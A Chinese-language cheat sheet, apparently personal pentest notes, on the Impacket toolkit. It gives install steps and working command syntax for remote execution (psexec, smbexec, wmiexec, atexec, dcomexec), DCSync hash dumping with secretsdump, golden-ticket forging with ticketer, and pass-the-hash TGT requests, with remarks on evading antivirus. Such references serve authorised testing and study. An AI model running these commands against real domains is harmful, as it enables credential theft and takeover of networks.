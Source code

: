 <center>Impacket</center>



[toc]







## Impacket

> Impacket 是用于处理网络协议的 Python 类的集合。[github](https://github.com/fortra/impacket)



Impacket 的强大之处在于其高度的对象化API，它使得处理复杂的协议层次结构变得简单。通过这个库，你可以：

* 构造：从零开始创建网络协议的数据包。
* 解析：读取原始数据并解析成对象模型。
* 交互：利用密码、散列、票据或密钥进行NTLM和Kerberos认证。
* 模拟：与各种MSRPC接口进行交互，包括SAMR、SRVS、WKST等。
  



### 1. 安装

```shell
# debian 
sudo apt update
sudo apt install snapd
sudo snap install snapd
sudo systemctl restart snapd
sudo systemctl enable snapd
sudo snap install impacket

# 使用
impacket-命令
```





### 2. 使用

> from [blog ](https://blog.csdn.net/qq_18811919/article/details/129152861) [blog1](https://www.cnblogs.com/ciyze0101/p/15315811.html)

```shell
Impacker是用户处理网络协议的Python类集合,用于对SAB1-3或IPv4/IPv6
上的TCP/UPD/ICMP/IGMP/ARP/IPv4/IPv6/SMB/MSRPC/NTLM/Kerberos/WMI/LDAP
等进行低级的编程访问,数据包可以从头开始构建,也可以从原始数据包中解析,
面向对象API使用处理协议的深层结构变得简单。
```



#### 1. psexec

```shell
psexec.py是用于远程连接的工具
语法:
	使用明文密码
	administrator	账号
	passrrrr		密码
	psexpc.py administrator:passrrrr@10.211.55.33
	使用密码Hash
	impacket-psexec administrator@10.129.18.192 -hashs xxxxxx
连接原理:
	通过管道上传一个二进制文件到目标机器C:\Windows目录下,
	并在远程目标机器上创建一个服务,然后通过服务运行二进制文件,
	运行结束后删除服务和二进制文件,由于创建或删除服务会产生大量的日志,
	因此会在攻击溯源时通过日志反推攻击流程。
连接条件：
	需要目标开启445端口,IPC$和非IPC$的任意可写共享,
	psexec要往目标主机写入二进制文件,默认情况下C$和admin$是开启的。
	
```



#### 2. smbexec

```shell
连接原理:
	smbexec跟psexec很相似是RemComSvc技术的工具，可以在文件共享远程系统中
	创建服务,将运行的命令写在bat脚本中执行,将执行结果写在文件中获取执行命令的输出,
	最后将bat文件和输出文件与服务全部删除,因为会创建服务因此会产生大量的日志。
连接条件:
	使用smbexec连接需要目标开启445端口,IPC$和非IPC$的任意可写共享,
	可以使用除ipc$共享外的所有其他共享，该脚本默认使用C$,可以使用-share参数指定
	其他共享。
连接语法:
	使用明文密码:
		smbexec.py administrator:passrrrr@10.211.55.33
	使用密码Hash
		smbexec.py administrator@10.133.22.22 -hashs xxxxxx
		smbexec.py administrator@10.133.22.22 -hashs xxxxxx	-codec gbk	解决乱码	
		smbexec.py administrator@10.133.22.22 -hashs xxxxxx	-share admin$	指定其他方式共享连接
```



#### 3. wmiexec

```shell
该脚本主要通过WMI实现远程执行,躲避杀软最好。
连接条件:
	需要目标开启135和445端口,并且依赖于admin$,
	135端口用于执行命令,445端口用于读取回显。
连接语法:
	使用明文密码:
	wmiexec.py administrator:passrrrr@10.211.55.33
	使用密码Hash
	wmiexec.py administrator@10.133.22.22 -hashs xxxxxx
	wmiexec.py administrator@10.133.22.22 -hashs xxxxxx	-codec gbk	解决乱码	

```



#### 4. atexec

```shell
通过脚本执行计划任务在主机上实现命令执行,并返回执行后的输出结果。
连接语法:
	使用明文密码:
	atexec.py administrator:passrrrr@10.211.55.33 whoami(执行的命令)
	使用密码Hash
	atexec.py administrator@10.133.22.22 whoami -hashs xxxxxx
	atexec.py administrator@10.133.22.22 whoami -hashs xxxxxx	-codec gbk	解决乱码	

```



#### 5. dcomexec

```shell
通过DCOM在目标上实现命令执行,并返回命令执行后结果
连接语法:
	使用明文密码:
	dcomexec.py administrator:passrrrr@10.211.55.33 whoami(执行的命令)
	使用密码Hash
	dcomexec.py administrator@10.133.22.22 whoami -hashs xxxxxx
	dcomexec.py administrator@10.133.22.22 whoami -hashs xxxxxx	-codec gbk	解决乱码	

```





#### 6. smbclient

```shell
该脚本用于向服务器上传文件
连接成功后的命令:
	info	查看信息
	shares	查看开启的共享
	use xx	使用指定的共享
	ls		查看当前路径
	cd 		切换目录
	put xx	上传文件
	get xx 	下载文件
连接语法（工作组）:
	smbclient.py administrator:passrrrr@10.210.22.3
	smbclient.py administrator@10.133.22.22 -hashs xxxxxx:xxxxx
连接语法（域环境）
	smbclient.py test/administrator:passrrrr@10.210.22.3
	smbclient.py test/administrator@10.133.22.22 -hashs xxxxxx:xxxxx

```





#### 7. secretsdump

```shell
该脚本是利用DCSync功能导出域内用户Hash,需要连接的账号和密码具有DCSync权限。
获取域内用户所有hash
	secretsdump.py test/administrator:passrrrr@10.210.22.3 -just-dc
使用卷影复制服务导出域内所有hash
	secretsdump.py 	test/administrator:passrrrr@10.210.22.3 -use-vss
获取域内指定krbtgt用户的Hash
	secretsdump.py 	test/administrator:passrrrr@10.210.22.3 -just-dc-user "test\krbtgt"

```





#### 8. lookupsid

```shell
10.210.22.3域控IP
lookupsid.py test/administrator:passrrrr@10.210.22.3 -just-dc-user --domain-sids

```





#### 9. ticketer

```shell
如果已知目标域krbtgt用户Hash和目标域的SID，则可以利用该脚本执行如下命令生成黄金票据。
krbtgt Hash:
	krbtgt:502:aad3b435b51404eeaad3b435b51404ee:66b71cfe5adbef5ec5ce4d80c78bc6c9:::
域SID:
	S-1-5-21-1873282888-450677352-877677906
生成黄金票据:
	ticketer.py -domain-sid S-1-5-21-1873282888-450677352-877677906 -nthash 66b71cfe5adbef5ec5ce4d80c78bc6c9 -domain test.com administrator

```





#### 10. getTGT

```shell
密码另外输入可以在特殊字符的密码情况下使用
getTGT.py test/administrator@10.21.33.4 -dc-ip 10.21.33.4 -debug
直接使用明文密码
getTGT.py test/administrator:Password123@10.21.33.4 -dc-ip 10.21.33.4 -debug
使用ntlm hash请求TGT
getTGT.py test.com/administrator:@10.211.55.4 -hashes aad3b435b51404eeaad3b435b51404ee:443304af5a35f12b9ff7ecc74adc5a27

```

